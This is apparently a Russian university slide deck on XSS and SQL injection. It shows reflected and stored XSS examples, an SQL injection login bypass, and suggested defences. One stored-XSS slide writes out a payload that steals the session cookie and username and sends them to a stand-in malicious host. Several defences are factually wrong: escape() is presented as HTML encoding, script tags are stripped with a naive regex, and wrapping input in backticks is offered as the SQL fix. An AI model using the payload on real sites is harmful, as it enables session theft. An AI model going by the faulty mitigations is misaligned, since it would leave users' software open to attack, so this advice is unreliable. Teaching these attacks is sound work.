


---
## Front matter
lang: ru-RU
title: "Ошибки проверки вводимых данных: межсайтовый скриптинг в веб-приложениях, межсайтовый скриптинг при наличии SQL-инъекции."
author: |
	 Косолапов Степан \inst{1}

institute: |
	\inst{1}Российский Университет Дружбы Народов

date: 19 октября, 2023, Москва, Россия

## Formatting
mainfont: Calibri
romanfont: Calibri
sansfont: Calibri
monofont: Calibri
toc: false
slide_level: 2
theme: metropolis
header-includes:
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
 - '\makeatletter'
 - '\beamer@ignorenonframefalse'
 - '\makeatother'
aspectratio: 43
section-titles: true

---

## Определение XSS и SQL-инъекции

Межсайтовый скриптинг (Cross-Site Scripting или XSS) и SQL-инъекции являются двумя самыми распространенными видами атак на веб-ресурсы.

# XSS

## Типы межсайтового скриптинга

1. Отражённый
2. Хранимый

## Отражённый XSS - схема



## Отражённый XSS - пример

Запрос: ``https://www.example.org/?query=картинки%20котов``

Результат:

```html
    ...
    <div class="query">
	    Результаты поиска по запросу
        <span class="queryText">
            картинки котов
        </span>:
    </div>
    <div class="result">
        <!-- результаты поиска -->
    </div>
    ...
```

## Отражённый XSS - пример

Запрос: ``https://www.example.org/?query=картинки%20котов<script>alert('Случилась xss атака!')</script>``

Результат:

```html
    ...
    <div class="query">
	    Результаты поиска по запросу 
        <span class="queryText">
            картинки котов
            <script>
            alert('Случилась xss атака!')
            </script>
        </span>:
    </div>
    <div class="result">
        <!-- результаты поиска -->
    </div>
    ...
```

## Хранимый XSS - схема



## Хранимый XSS - пример

Разметка страницы:

```html
<h1>Здравствуйте, 
    <span class="username">Обычный Пользователь</span>!
</h1>
<article class="topic">
	<header class="topic-header">
		<h2>Разведение пираний в домашних условиях</h2>
	</header>
	<p class="topic-body">
		Всем привет. Я решил завести себе пираний.
Расскажите, какие плюсы, минусы, подводные камни.</p>
    <footer class="posted-by">
        От <span class="poster-name">Другой Пользователь</span>
    </footer>
</article>
```

## Хранимый XSS - пример

Странный ввод пользователя:

```
Другой пользователь</span>
<script>const username=document
.querySelector('.username')
.textContent;
const sessionCookie=document.cookie.match(/session-token=([^;$]+)/)[1];
fetch('http:/www.malicious-site.com',{method: 'post',
body:JSON.stringify({username,sessionCookie})});
</script>
```

## Хранимый XSS - пример

Разметка со странным вводом пользователя:

```html
...
От <span class="poster-name">Другой Пользователь</span>
<script>
    const username = document.querySelector(`.username`).textContent;
    const sessionCookie = document.cookie
        .match(/session-token=([^;$]+)/)[1];
    fetch(`http:/www.malicious-site.com`, {
        method: `post`,
        body: JSON.stringify({username, sessionCookie})
    });
</script>
...
```

## Последствия XSS

1. Кража личных данных.

2. Манипулирование пользовательским интерфейсом.

3. Выполнение произвольного кода.

4. Кража авторизации.

5. Разрушение репутации и потеря доверия.

6. Юридические проблемы.

## Методы борьбы с XSS - Кодирование данных

```js
let userContent = "<script>alert('xss');</script>";
let safeContent = escape(userContent);
```

В этом примере функция ``escape`` преобразует специальные символы в их HTML кодировки, предотвращая их исполнение браузером.

## Методы борьбы с XSS - Использование Content Security Policy (CSP)

```html
<meta
    http-equiv="Content-Security-Policy"
    content="default-src 'self'; script-src 'self'"
>
```

В этом примере CSP ограничивает загрузку скриптов только из источника 'self', что означает, что только те скрипты, которые расположены на том же источнике, что и веб-страница, могут быть загружены.

## Методы борьбы с XSS - Использование Content Security Policy (CSP), атрибут nonce

```js
const crypto = require("crypto");
crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

## Методы борьбы с XSS - Валидация ввода(Validation Sanitization)

```js
let userContent = "<script>alert('xss');</script>";
let safeContent = userContent.replace(/<script[^>]*?>.*?<\/script>/gi, '');
```

В этом примере функция ``replace()`` используется для удаления всех скриптов из введенных пользователем данных.

## Методы борьбы с XSS - Использование HTTP заголовков

Заголовки HTTP могут быть использованы для усиления безопасности вашего приложения.

``X-XSS-Protection: 1; mode=block``

Этот заголовок используется для включения встроенного фильтра XSS в браузере.

# SQL - инъекции

## Пример SQLi

Ввод пользователя ``admin'; --``

Итоговый SQL запрос:

```sql
SELECT * FROM users WHERE username = 'admin'; --' AND password = ''
```

Должно быть(один из валидных вариантов):

```sql
SELECT * FROM users WHERE username = `admin'; --` AND password = ''
```

## Последствия SQL-инъекций

1. Раскрытие конфиденциальных данных
2. Компрометация целостности данных
3. Нарушение приватности пользователей
4. Получение злоумышленниками административного доступа к системе
6. Получение злоумышленниками общих прав доступа к системе
7. Репутационные и финансовые потери

## Как бороться с SQL-инъекцией

1. Экранирование
2. Валидация входных параметров, которые необходимо пробросить в sql запрос
3. Использование ORM для упрощения процесса экранирования параметров
4. Регулярное тестирование на предмет возможной SQL - инъекции
5. Придерживание принципа минимальных привилегий

# Заключение